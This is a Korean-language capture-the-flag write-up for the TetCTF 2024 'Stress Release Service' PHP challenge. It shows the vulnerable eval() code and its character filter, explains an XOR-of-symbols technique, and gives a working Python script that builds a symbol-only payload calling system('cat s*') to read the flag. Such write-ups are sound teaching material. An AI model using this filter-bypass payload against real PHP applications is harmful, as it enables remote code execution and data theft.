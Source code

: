 ```yaml
---
title: "[TetCTF 2024] Stress Release Service"
date: 2024-02-03 16:32:53
tags:
categories: [Security, CTF]
---
```


## 개요

> For a better New Year, we are introducing a service that can help you reduce stress.

[<i class="fa-solid fa-file"></i> chall.zip](/uploads/tet24-stress-release-service/chall.zip)


## 문제 분석

웹페이지에 들어가면 입력 창과 버튼이 하나 있습니다. 버튼을 클릭하면 입력한 내용과 개구리가 함께 출력됩니다.

![1.png](/images/tet24-stress-release-service/1.png)

소스 코드가 제공된 문제로, 플래그는 `secret.php` 에 하드코딩되어 있습니다. 상단에 배포한 파일에는 실제 플래그를 적어놓기는 했지만, 대회 환경에서 배포된 파일에는 가짜 플래그가 적혀 있습니다.

```php
<?php

// Veryyyyyy Secretttttttttttt !!!!!!!!!!!!!!!!!
$FL4ggggggggggg = "TetCTF{*** redacted ***}";

?>
```

`index.php` 를 보면 입력한 내용이 `$voice` 에 대입됩니다. 이후 `validateInput()` 함수의 검증을 통과할 경우 `eval()` 함수의 문자열 인자 중 일부로 전달됩니다. PHP의 `eval()` 함수는 문자열을 코드로 간주하여 실행하는 함수이기 때문에, 임의 코드 실행이 가능한 상황입니다.

```php
if (isset($_GET["shout"]) && !empty($_GET["shout"]) && is_string($_GET["shout"])) {
	$voice = $_GET["shout"];
	$res = "<center><br><br><img src=\"https://i.imgur.com/SvbbT0W.png\" width=5% /> WRONGGGGG WAYYYYYY TOOOO RELEASEEEEE STRESSSSSSSS!!!!!!</center>";
	if(validateInput($voice) === true) {
		eval("\$res='<center><br><br><img src=\"https://i.imgur.com/TL6siVW.png\" width=5% /> ".$voice.".</center>';");
	}

	if (strlen($res) < 300) {
		echo $res;
	} else {
		echo "<center>Too loud!!! Please respect your neighbor.</center>";
	}
}
```

`validateInput()` 함수는 입력이 특수문자로만 이루어져 있는지, 사용한 문자의 종류가 7종을 초과하는지 검사합니다. 즉 이 문제는 특수문자 7종 이하만을 사용한 PHP 코드 작성을 요구하고 있습니다.

```php
function validateInput($input) {
    // To make your shout effective, it shouldn't contain alphabets or numbers.
    $pattern = '/[a-z0-9]/i';
    if (preg_match($pattern, $input)) {
        return false;
    }

    // and only a few characters. Let's make your shout clean.
	$count = count(array_count_values(str_split($input)));
	if ($count > 7) {
		return false;
	}

	return true;
}
```


## 문제 풀이

기존의 특수문자만을 이용한 PHP 코드 실행 문제를 보면 몇 가지 파훼법이 존재합니다. 예를 들어 아래 풀이는 `$_` 변수에 아무 문자열이나 대입한 후, `$_++;` 로 원하는 문자가 나올 때까지 증감 연산을 하는 방법을 사용합니다.

[@preview](https://medium.com/mucomplex/bypass-with-php-non-alpha-encoder-fee4e1bac31e)

그런데 이 문제는 PHP 8.3 버전에서 동작하여 위와 같은 방식을 사용할 수 없습니다. 증감 연산자에 대한 PHP [문서](https://www.php.net/manual/en/language.operators.increment.php)를 보면 8.3 버전부터 문자열에 대한 증감 연산을 더 이상 지원하지 않습니다.

![2.png](/images/tet24-stress-release-service/2.png)

다만 PHP의 논리적 xor 연산자는 문자열 간의 연산을 지원하고 있습니다. `php -a` 로 인터랙티브 셸을 실행하여 확인할 수도 있습니다.

```
Interactive shell

php > echo '(' ^ '\\';
t
```

그렇다면 특수문자 7종 간 xor 연산을 계속하여 코드 실행에 필요한 문자를 모두 얻을 수도 있을 것입니다.

`index.php` 코드를 보면 입력은 `$res = '...` 와 `...';` 사이에 들어갑니다. 따라서 문자열과 코드를 분리하기 위한 `'` 와 `;` 이 필요합니다. 또한 xor과 문자열 덧셈을 위한 `^` 와 `.` , xor 연산식을 감싸기 위한 `(` 와 `)` 를 선택했습니다. 7종을 채우려면 하나가 남는데, 역슬래시 `\\` 를 사용했습니다.

각 알파벳을 가장 적은 횟수의 xor 연산으로 얻는 완전 탐색을 실시하면, 선택한 특수문자 중 최대 6종만으로 모든 문자의 조합이 가능함을 확인할 수 있습니다.

```
{'A': [39, 59, 40, 41, 92],
 'B': [39, 94, 59],
 'C': [39, 94, 59, 40, 41],
...
 'x': [39, 94, 40, 41],
 'y': [39, 94],
 'z': [39, 40, 41, 92]}
```

추가적으로 PHP는 다음과 같이 함수명에 해당하는 문자열을 괄호로 감싸 함수 호출이 가능합니다.

```
Interactive shell

php > system("id");
uid=501(user) gid=1000(user) groups=1000(user)
php >
php > ("system")("id");
uid=501(user) gid=1000(user) groups=1000(user)
```

따라서 `system()` 함수를 호출해 임의 커맨드를 실행할 수 있습니다. 아래 코드는 완전 탐색 후 `("system")("cat s*")` 를 실행하기 위한 특수문자 문자열을 조합합니다.

```python
#!/usr/bin/env python3
from itertools import combinations
from functools import reduce
from operator import xor
import string

tbl = dict()

def gen_table():
    global tbl

    cs = list(map(ord, [b"'", b"^", b";", b"(", b")", b".", b"\\"]))

    for i in range(6, 1, -1):
        for it in combinations(cs, i):
            c = chr(reduce(xor, it))
            if c in string.ascii_letters + " *":
                tbl[c] = list(it)

    return tbl

def rtos(r: list):
    res = "("

    for c in list(map(chr, r)):
        res += "'" + ("\\" if c in ["'", "\\"] else "") + c + "'^"

    return res[:-1] + ")"

def encode(s):
    res = ""

    for i in range(0, len(s)):
        res += rtos(tbl[s[i]]) + "."

    return res[:-1]

def main():
    gen_table()

    f = encode("system")
    a = encode("cat s*")
    print(f"';({f})({a});'")

if __name__ == "__main__":
    main()
```

문자열을 입력하고 버튼을 누르면 개구리 말고 다른 내용은 보이지 않는데, 브라우저의 소스 코드 확인 기능을 이용하면 플래그가 포함되어 있는 것을 확인할 수 있습니다.

![3.png](/images/tet24-stress-release-service/3.png)